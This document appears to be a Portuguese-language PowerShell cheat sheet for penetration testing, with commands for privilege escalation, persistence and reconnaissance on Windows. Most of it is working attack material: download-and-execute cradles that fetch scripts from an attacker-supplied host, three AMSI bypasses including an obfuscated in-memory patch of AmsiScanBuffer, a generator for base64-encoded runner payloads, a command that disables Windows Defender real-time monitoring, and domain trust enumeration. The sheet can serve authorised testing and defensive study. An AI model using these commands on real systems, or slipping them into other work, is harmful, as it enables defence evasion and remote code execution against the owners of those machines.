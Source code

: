 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Obter arquivo da lixeira
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Obter processo
```powershell
Get-Process
```

## Obter Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Obter modo de linguagem
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI com _amsiContext_ (somente no powershell)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI com _AmsiInitFailed_ (somente o powershell)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI utilizando patching  (funciona para binrios .NET tambem)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verifica PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verifica a lista de permissões da aplicação
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## Exibe a confiança da floresta
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Obter a confiaça do dominío
```powershell
Get-DomainTrust -Domain <domain>
```

## Obter SID do dominío
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell visualiza assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## Obter endereço do proxy via powershell
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## Configurar proxy com powershell
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - Gera um payload encodado em base64 para baixar o runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

## powershell - Desativa o monitoramente em tempo real (Windows Defender)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
